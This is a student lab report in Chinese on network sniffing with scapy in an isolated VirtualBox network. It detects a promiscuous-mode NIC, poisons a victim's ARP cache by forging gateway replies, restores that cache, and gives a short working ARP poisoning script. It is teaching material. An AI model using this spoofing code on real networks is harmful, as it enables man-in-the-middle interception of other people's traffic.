

* [实验目标：](#实验目标：)
* [实验环境：](#实验环境：)
* [网络逻辑拓扑：](#网络逻辑拓扑：)
* [实验一：检测局域网中的异常终端](#实验一：检测局域网中的异常终端)
  * [实验步骤](#实验步骤)
  * [分析：](#分析：)
* [实验二：手工单步“毒化”目标主机的 ARP 缓存](#实验二：手工单步“毒化”目标主机的-arp-缓存)
  * [实验步骤：](#实验步骤：)
  * [开始恢复受害者主机的 ARP 缓存记录](#开始恢复受害者主机的-arp-缓存记录)
* [基于 scapy 编写 ARP 投毒劫持工具](#基于-scapy-编写-arp-投毒劫持工具)
* [遇到的问题：](#遇到的问题：)
  * [开启混杂模式后靶机会回应目的地址为哪些的arp请求数据包?](#开启混杂模式后靶机会回应目的地址为哪些的arp请求数据包?)
* [参考资料：](#参考资料：)
# 第四章 网络监听实验
## 实验目标：
* 用scapy毒化”目标主机的 ARP 缓存
* 基于 scapy 编写 ARP 投毒劫持工具
## 实验环境：
* VirtualBox 6.1.26
* 攻击者主机： kali 2021.2 (内部网络1) 
* 网关：Debian 10 (内部网络1)
* 靶机: kali 2021.2 （内部网络1）
由于只需要局域网环境，所以直接使用内部网络来最小干扰实验。

## 网络逻辑拓扑：

网关：enp0s10: 172.16.222.1/24 [08:00:27:6f:87:ef] 
攻击者： eth0: 172.16.111.110/24 [08:00:27:5e:16:f8]
靶机：eth0: 172.16.111.148 [08:00:27:02:95:db]

## 实验一：检测局域网中的异常终端
按照[课本](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#%E5%AE%9E%E9%AA%8C)上的实验步骤.
### 实验步骤
**1.在攻击者主机上开启 scapy**
直接用kali自带的scapy即可
```scapy
sudo scapy
```

**2.检查受害者主机网卡的「混杂模式」是否启用**


* 受害者主机目前并未启用混杂模式,攻击者发送一个混杂模式探测的包给靶机：
```python
pkt = promiscping("172.16.111.148")
```

可以看到，没有返回结果
**3.手动开启该网卡的「混杂模式」**


**4.Attacker 再在scapy的交互式终端发送一个包**

靶机有返回结果

### 分析：
因为
> 在正常模式下，只接收目的 MAC 地址的自己的数据包，其他将一律丢弃；而在混杂模式下，网卡并不检查目的 MAC 地址，对所有的数据包都来者不拒。

所以我们可以构造一个目的MAC地址错误的ARP请求数据包，发给靶机。如果此时靶机开启了混杂模式，那么他将会回应这个数据包。

* 看了下[scapy promiscping源码](https://github.com/secdev/scapy/blob/master/scapy/layers/l2.py#L769-L779)也是这种思路：
```python
@conf.commands.register
def promiscping(net, timeout=2, fake_bcast="ff:ff:ff:ff:ff:fe", **kargs):
    # type: (str, int, str, **Any) -> Tuple[ARPingResult, PacketList]
    """Send ARP who-has requests to determine which hosts are in promiscuous mode
    promiscping(net, iface=conf.iface)"""
    ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
                     filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    ans = ARPingResult(ans.res, name="PROMISCPing")

    ans.display()
    return ans, unans
```
可以看到目的MAC地址为：`ff:ff:ff:ff:ff:fe`,为一个假的广播地址。
* 自己DIY构造了一个：

又回应，说明成功发现开启混杂模式的网卡。

**手动关闭该网卡的「混杂模式」**

```bash
sudo ip link set enp0s3 promisc off
```
## 实验二：手工单步“毒化”目标主机的 ARP 缓存
实验目的：将受害者主机上ARP 缓存网关的 MAC 地址「替换」为攻击者主机的 MAC 地址
### 实验步骤：
**1. ATTACKER构造一个 ARP 请求**

```python
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
* 构造好的 ARP 请求报文详情
```python
arpbroadcast.show()
```


**2.发送这个 ARP 广播请求**


**3.伪造网关的 ARP 响应包,发给受害者主机**
* 遇到一个问题：
按课本上的步骤，毒化失败了,在靶机上用tcpdump抓包，根本就没有抓到发给靶机的ARP回应包。

发现应该用`send(arpspoofed)`,而不是`sendp(arpspoofed)`,但是sendp不是工作在第二层?那应该足够了啊..

觉得可能因为arp是夹在第二层与第三层之间的层...

* 攻击者使用sendp发送指令 ，靶机"纹丝不动":
  

最后使用send，发现成功了,而且测试发现:
1. 构造了一个hwdst在局域网中不存在的arp包,且victim的混杂模式已经关闭
```python
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.148", hwdst="08:00:27:5e:17:f9")
arpspoofed.show2()
###[ ARP ]### 
  hwtype= 0x1
  ptype= IPv4
  hwlen= 6
  plen= 4
  op= is-at
  hwsrc= 08:00:27:5e:16:f8
  psrc= 172.16.111.1
  hwdst= 08:00:27:5e:17:f9
  pdst= 172.16.111.148
```
```bash
$ ip add  
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:02:95:db brd ff:ff:ff:ff:ff:ff
    inet 172.16.111.148/24 brd 172.16.111.255 scope global dynamic noprefixroute eth0
       valid_lft 853217sec preferred_lft 853217sec
    inet6 fe80::a00:27ff:fe02:95db/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

       #eth0 网卡混杂模式关闭
```
发出去，毒化成功了,好像发现hwdst任意填写都可以达到效果，好像靶机并不会检查这个字段...


* 靶机：
  

  


### 开始恢复受害者主机的 ARP 缓存记录
```python
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:19:f4:a1", pdst="172.16.111.148", hwdst="08:00:27:02:95:db")
```
sendp 依旧纹丝不动
直接send


**查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录**


## 基于 scapy 编写 ARP 投毒劫持工具
还是直接自己干个工具把，就不使用自动化工具了。不是很复杂，把手动实现的自动化就行。
```python
import sys 
from scapy.all import srp,send,Ether,ARP,conf

def Help():
    print("sys.argv[0] <target's IP> eg:"+sys.argv[0]+"192.168.1.1")
    return 
if len(sys.argv)!=2:
    Help()
    sys.exit(1)

VicIp=sys.argv[1]

gwIp = conf.route.route("0.0.0.0")[2] # get GW's ip
print("Gateway'ip:"+gwIp)

# Get GW's Mac address
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=gwIp)
# send request,get gw's mac address
recved = srp(arpbroadcast, timeout=2)
gw_mac = recved[0][0][1].hwsrc

print("Gateway's Mac Address:"+gw_mac)

arpspoofed=ARP(op=2, psrc=gwIp, pdst=VicIp, hwdst="08:00:27:bd:92:09") # random hwdst
# send 
send(arpspoofed)
```


成功毒化

## 遇到的问题：

###  开启混杂模式后靶机会回应目的地址为哪些的arp请求数据包?
比如上面我自己写的`ff:ff:ff:ff:00:0e`
实际测试发现，混杂模式,组播地址会回应,如果是一个错误的单播地址，靶机不会回应。


## 参考资料：
* [scapy 文档](https://scapy.readthedocs.io/en/latest/usage.html)
* [ARP Cache Poisoning using Scapy - DataDrivenInvestor](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112)
